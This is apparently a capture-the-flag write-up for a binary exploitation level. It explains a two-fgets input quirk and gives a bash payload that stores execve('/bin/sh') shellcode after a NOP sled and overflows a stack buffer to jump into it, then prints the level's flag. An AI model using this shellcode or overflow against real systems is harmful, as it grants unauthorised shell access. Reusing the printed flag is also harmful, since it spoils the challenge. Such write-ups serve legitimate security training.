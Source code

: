 # Level1
The only problem here is that the program waits 2 fgets on stin, so we have to send a sentence with a "\n" to cut the reading of the 1 fgets.
Then we just have to overflow the buffer on the 2 fgets with the address of a shellcode.

The payload is :
```bash
export SHELLCODE=`python -c 'print("\x90" * 0xffff + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
cat <(python -c 'print("dat_wil" + "\n" + "a" * 0x50 + "\x01\x01\xff\xff")') - | ./level01
```
Flag is **PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv**
